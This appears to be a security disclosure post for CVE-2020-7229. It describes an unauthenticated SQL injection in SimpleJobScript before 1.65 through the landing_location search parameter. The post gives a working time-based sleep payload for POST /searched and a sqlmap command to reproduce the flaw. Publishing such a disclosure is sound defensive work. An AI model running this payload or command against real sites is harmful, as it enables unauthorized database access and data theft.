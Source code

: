 ```yaml
---
cve: "CVE-2020-7229"
title: "Unauthenticated SQL injection in SimpleJobScript"
date: 2020-01-19
tags:
- cve
- sql injection
---
```

An issue was discovered in Simplejobscript.com SJS before 1.65. There is unauthenticated SQL injection via the search engine. The parameter is `landing_location`. The function is `countSearchedJobs()`. The file is `_lib/class.Job.php`.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7229
- public announcement: https://github.com/niteosoft/simplejobscript/issues/7

<hr />

**Description:**  
An issue was discovered in Simplejobscript.com SJS before 1.65. There is unauthenticated SQL injection via the search engine. The parameter is `landing_location`. The function is `countSearchedJobs()`. The file is `_lib/class.Job.php`.

**Details:**  
File: `/_lib/class.Job.php`  
Function: `countSearchedJobs()`  
Parameter: `landing_location`  

**Payload:**  
```
POST /searched
landing_title=aaa&landing_location=77+or+(select+(sleep(2)))
```

**Steps to Reproduce:**  
```
$ sqlmap --threads=10 --batch --dbms=mysql -u "http://local.simplejobscript.net/searched" --data="landing_title=aaa&landing_location=77" -p landing_location --banner
```

**PoC:**
![cve-2020-7229 SimpleJobScript sqli](/images/cve-2020-7229.png)



